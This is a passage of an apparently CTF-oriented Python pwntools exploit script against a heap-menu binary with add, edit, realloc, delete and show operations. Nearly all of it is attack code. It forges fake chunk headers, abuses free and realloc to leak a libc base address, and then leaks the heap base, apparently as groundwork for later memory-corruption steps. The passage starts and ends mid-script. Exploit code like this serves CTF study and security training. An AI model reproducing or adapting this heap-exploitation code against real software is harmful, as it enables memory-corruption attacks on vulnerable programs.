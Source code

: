 ```python
    sh.sendline('2')
    sh.recvuntil('Input Number:\n')
    sh.sendline(str(ids))
    sh.recvuntil('> ')
    sh.sendline('2')
    sh.recvuntil('Input len of Info:\n')
    sh.sendline(str(length))
    sh.recvuntil('Input info:\n')
    if(length > 0):
        sh.send(info)
    sh.recvuntil('>>>')
def realloc(ids):
    sh.sendline('2')
    sh.recvuntil('Input Number:\n')
    sh.sendline(str(ids))
    sh.recvuntil('> ')
    sh.sendline('2')
    sh.recvuntil('>>>')
def delete(ids):
    sh.sendline('3')
    sh.recvuntil('Input Number of Staff:\n')
    sh.sendline(str(ids))
    sh.recvuntil('>>>')
def show(ids):
    sh.sendline('4')
    sh.recvuntil('Input staff number:\n')
    sh.sendline(str(ids))
    # sh.recvuntil('>>>')

def Login():
    f = open('./password.out')
    s1 = f.readline()[:-1]
    s2 = f.readline()
    f.close()
    sh.sendafter('Input String1:', s1)
    sh.sendafter('Input String2:', s2)

Login()


add('a',1,0x90,'aaa')
payload = p64(0) + p64(0x21) + p64(0) * 2 + p64(0) + p64(0x21)
add('./flag',2,0x90,payload)
delete(1)
add('a',1,0x50,'\n')

show(1)
sh.recvuntil('Info:')
libc_base = u64(sh.recv(6).ljust(8,'\x00')) - 0x3C4B0A
log.success('libc_base = ' + hex(libc_base))
# gdb.attach(sh)
add('c',3,0,'')
add('d',4,0,'')

edit_info(3,0,'')
edit_info(4,0,'')
edit_info(3,0,'')

show(3)
sh.recvuntil('Info:')
heap_base = (u64(sh.recv(6).ljust(8,'\x00')) >> 12) << 12
log.success("heap_base = " + hex(heap_base))
# gdb.attach(sh)
```